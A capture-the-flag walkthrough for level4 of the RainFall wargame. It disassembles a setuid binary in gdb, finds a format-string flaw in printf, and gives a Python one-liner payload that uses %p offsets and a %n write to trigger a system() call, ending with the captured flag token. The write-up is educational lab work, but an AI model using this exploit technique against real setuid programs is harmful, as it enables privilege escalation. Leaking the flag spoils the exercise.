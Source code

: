 # level4 walkthrough
Given setuid binary, lets disassemble it:

    (gdb) disass main
    Dump of assembler code for function main:
    0x080484a7 <+0>:	push   ebp
    0x080484a8 <+1>:	mov    ebp,esp
    0x080484aa <+3>:	and    esp,0xfffffff0
    0x080484ad <+6>:	call   0x8048457 <n>
    0x080484b2 <+11>:	leave
    0x080484b3 <+12>:	ret
    End of assembler dump.

"n" function called with no arguments, lets disassemble it:

    (gdb) disass n
    Dump of assembler code for function n:
    0x08048457 <+0>:	push   ebp
    0x08048458 <+1>:	mov    ebp,esp
    0x0804845a <+3>:	sub    esp,0x218
    0x08048460 <+9>:	mov    eax,ds:0x8049804
    0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax
    0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200
    0x08048471 <+26>:	lea    eax,[ebp-0x208]
    0x08048477 <+32>:	mov    DWORD PTR [esp],eax
    0x0804847a <+35>:	call   0x8048350 <fgets@plt>
    0x0804847f <+40>:	lea    eax,[ebp-0x208]
    0x08048485 <+46>:	mov    DWORD PTR [esp],eax
    0x08048488 <+49>:	call   0x8048444 <p>
    0x0804848d <+54>:	mov    eax,ds:0x8049810
    0x08048492 <+59>:	cmp    eax,0x1025544
    0x08048497 <+64>:	jne    0x80484a5 <n+78>
    0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
    0x080484a0 <+73>:	call   0x8048360 <system@plt>
    0x080484a5 <+78>:	leave
    0x080484a6 <+79>:	ret
    End of assembler dump.

"n" function looks similar to the previous level, but there is "p" function called instead of printf, lets disassemble this function:

    (gdb) disass p
    Dump of assembler code for function p:
    0x08048444 <+0>:	push   ebp
    0x08048445 <+1>:	mov    ebp,esp
    0x08048447 <+3>:	sub    esp,0x18
    0x0804844a <+6>:	mov    eax,DWORD PTR [ebp+0x8]
    0x0804844d <+9>:	mov    DWORD PTR [esp],eax
    0x08048450 <+12>:	call   0x8048340 <printf@plt>
    0x08048455 <+17>:	leave
    0x08048456 <+18>:	ret
    End of assembler dump.

Here is the same vulnerable printf call with buffer argument as format string.
This binary also already have exploit in p+73 which would help us to get next flag.
The problem is that we can't just prefix buffer with random values like in level3 binary because the m value should be too big thus we would exceed buffer size.
But we can use other printf format options to get desired amount of chars printed like width parameter.
Lets check how many pointers wee need to skip:

    level4@RainFall:~$ ./level4
    AAAA %p %p %p %p %p %p %p %p %p %p %p %p
    AAAA 0xb7ff26b0 0xbffff754 0xb7fd0ff4 (nil) (nil) 0xbffff718 0x804848d 0xbffff510 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141

There are 11 pointers on stack before our buffer, lets find how many bytes we need to print:

    python -c 'print("\x10\x98\x04\x08" + "%p"*10 + "%.10000d" + "%n")' > /tmp/level4/exploit

    (gdb) run < /tmp/level4/exploit
    Breakpoint 4, 0x08048492 in n ()
    (gdb) i r eax
    eax            0x2769	10089

We need to add 16930116-89=16930027 bytes:

    level4@RainFall:~$ python -c 'print("\x10\x98\x04\x08" + "%p"*10 + "%.16930027d" + "%n")' > /tmp/level4/exploit
    level4@RainFall:~$ ./level4 < /tmp/level4/exploit

Here is our token:

    0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a